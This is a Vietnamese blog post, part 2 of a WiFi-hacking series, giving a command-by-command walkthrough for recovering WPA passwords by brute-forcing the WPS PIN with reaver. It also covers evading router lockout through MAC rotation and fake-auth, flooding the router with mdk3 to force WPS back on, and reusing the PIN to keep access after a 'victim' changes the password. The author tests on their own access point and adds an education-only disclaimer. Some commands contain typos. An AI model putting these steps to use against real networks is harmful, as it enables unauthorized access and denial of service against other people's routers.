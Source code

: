 ```yaml
---
title: 'Nghịch vài trò "hack" Wifi - Phần 2'
header:
  caption:
categories:
  - Technology
tags:
  - hackwifi
---
```


# Nghịch vài trò "hack" Wifi - Phần 2: WPS

Ở phần thứ nhất, chúng ta đã tìm hiểu cách hack wifi bằng phương pháp từ điển - lợi dụng sơ hở trong quá trình xác thực bắt tay 4 bước. Hack wifi bằng từ điển có ưu điểm là hạ được nhiều loại bảo mật nhưng lại gặp vấn đề khi người dùng đặt mật khẩu khó, có khi chạy cả tháng, cả năm cũng không ra mật khẩu. Thay vào đó, chúng ta sẽ lợi dụng sơ hở trong xác thực mã pin, hôm nay mình sẽ trình bày phương pháp hack wifi thông qua WPS.

## Tổng quan

Với phương pháp hack wifi bằng WPS, điều kiện tiên quyết là modem wifi phải bật chế độ WPS, vậy WPS là gì?
WPS - WiFi Protected Setup, là tính năng hỗ trợ kết nối mạng wifi giữa Client và AP với nhau, nhưng lại bỏ qua bước phải nhập mật khẩu WiFi truyền thống. Nhờ có WPS mà người dùng không cần nhớ mật khẩu vẫn có thể truy cập vào AP, hầu hết modem hiện nay đều hỗ trợ WPS (có thể xem ở modem nhà bạn). Và quan trọng hơn là nó mặc định được bật :).

## Công cụ và thực hành

- <a href="https://www.aircrack-ng.org/doku.php">Aircrack-ng</a>: công cụ chuyển chế độ monitor
- <a href="https://github.com/t6x/reaver-wps-fork-t6x">Reaver</a>: công cụ mạnh mẽ tấn công kiểm tra các mạng wifi sử dụng phương thức tấn công brute force mã PIN
- <a href="https://gitlab.com/kalilinux/packages/mdk3">Mdk3</a>: công cụ tấn công gói tin tới AP
- <a href="https://github.com/alobbs/macchanger">Macchanger</a>: công cụ hỗ trợ thay đổi địa chỉ mac của thiết bị

Như cách tấn công bằng từ điển, chúng ta cần có 1 card wifi hỗ trợ monitor, ở đây mình vẫn chọn TP-link WN722N V1.
<img src="https://crowi.pionero.io/files/610edcc41120630068a6a65e"  width="400px" height="300px">
Kiểm tra tên của card wifi:

```shell
# airmon-ng
```

<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a660" height="150px">

Tắt toàn bộ tiến trình sử dụng mạng

```shell
# airmon-ng check kill
```

<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a65f" height="150px">

Start monitor cho card có tên là wlan0

```shell
# airmon-ng start: wlan0
```

<img src="https://crowi.pionero.io/files/610ee1381120630068a6a66c" height="150px">

Kiểm tra lại lần nữa:

```shell
# airmon-ng
```

<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a663" height="150px">

Chúng ta có 1 monitor là wlan0mon, bây giờ ta thực hiện các thao tác trên monitor.
Quét tất cả các AP hỗ trợ WPS xung quanh:

```shell
# wash -i wlan0mon
```

![Screenshot_2021-08-29_10-01-20.png](https://crowi.pionero.io/files/612b933d01bb4b0067d0ad93)
Nếu lệnh này không hiển thị được các AP, fix bằng cách tạo 1 thư mục `reaver` cho nó.

```shell
# mdkir /etc/reaver
```

Xác định mục tiêu, như thường lệ, mình vẫn chọn AP có tên là **Room_402**, chính là AP của phòng mình(đã đổi mật khẩu khác trước nhé ^\_^)
Chúng ta cần xác định 1 số tham số:

- Bssid: Địa chỉ MAC của AP
- Channel: Kênh của AP
- Essid: Tên của AP

Sau khi xác định được các yếu tố trên, chạy lệnh:

```shell
# reaver -i wlan0mon -b <bssid> -vv -S -g 21 -A -L -N
```

Trong đó:

- vv: Xem log 1 cách chi tiết
- g: số lần attempts mã pin, ở đây mình chọn là 21 - kinh nghiệm
- A: Không sử dụng _associate_, ở đây mình _associate_ bằng _aireplay-ng_ để tránh timeout
- L: không cập nhât trạng thái locked
- N: không sử dụng Nack message

Sử dụng aireplay-ng để gửi liên tục các fake-auth để tránh tình trạng AP bị timeout.

```shell
# iw dev wlan0mon set channel <channel> && aireplay-ng --fakeauth 15 -a <bssid > -e <essid> wlan0mon
```

Trong quá trình tấn công, có 1 vài modem chặn quá trình tấn công **DDOS** nên chúng ta phải liên tục thay đổi địa chỉ MAC cho monitor.

```shell
# ifconfig wlan0mon down
# macchanger -r wlan0mon
# ifconfig wlan0mon up
```

Tham số -r để chỉ định sinh ra ngẫu nhiên.
![image.png](https://crowi.pionero.io/files/612b953b01bb4b0067d0ad94)

Một số modem có cơ chế tự động tắt WPS nếu nhận quá nhiều attempts, nếu kiểm tra thấy WPS đã bị lock, chúng ta cần tấn công **DDOS** để modem reset và bât lại WPS. Ở đây, ta sử dụng Mdk3 để tấn công.
Chúng ta có thể sử dụng các mode a b d m để tấn công, hoặc kết hợp toàn bộ, chi tiết xem thêm ở <a href="https://kalitut.com/mdk3-examples-tutorial/">đây</a>.

## Kết quả

Sau tầm 15p chúng ta đã có kết quả, mặc dù password đã đặt rất khó: _@&wifi#nay#deo#the#hack#1998$$_
nhưng sử dụng WPS vẫn chỉ mất có 15p ^\_^.
![image.png](https://crowi.pionero.io/files/612b923b01bb4b0067d0ad92)

1 tip nữa sau khi có được mã pin, dù victim có thay đổi mật khẩu thì chúng ta vẫn dễ dàng tìm được, chỉ cần thêm tham số -p ở câu lệnh:

```shell
# reaver -i wlan0mon -b <bssid> -vv -S -g 21 -A -L -N -p <pin>
```

Với pin là pin đã lấy được ở trên.

## Tổng kết

Kĩ thuật lợi dụng WPS là 1 kĩ thuật khó, đòi hỏi phải có nhiều kinh nghiệm cũng như xử lý tốt tình huống.
So với kĩ thuật hack bằng từ điển thì kĩ thuật này có ưu điểm không cần biết mật khẩu đặt khó hay không, nhưng nhược điểm là bắt buộc modem phải bật WPS. Do đó, điều chúng ta rút ra rằng là không nên bật chế độ WPS nếu không thực sự quá cần thiết.
Sang bài tiếp theo, chúng ta sẽ tiếp cận với một hướng đi khác, dễ hơn, lợi hại hơn nhưng cũng nguy hiểm - **Phising Attack**.

_lưu ý: bài viết chỉ nhằm mục đích học tập, mình không chịu trách nhiệm cho mọi tình huống_
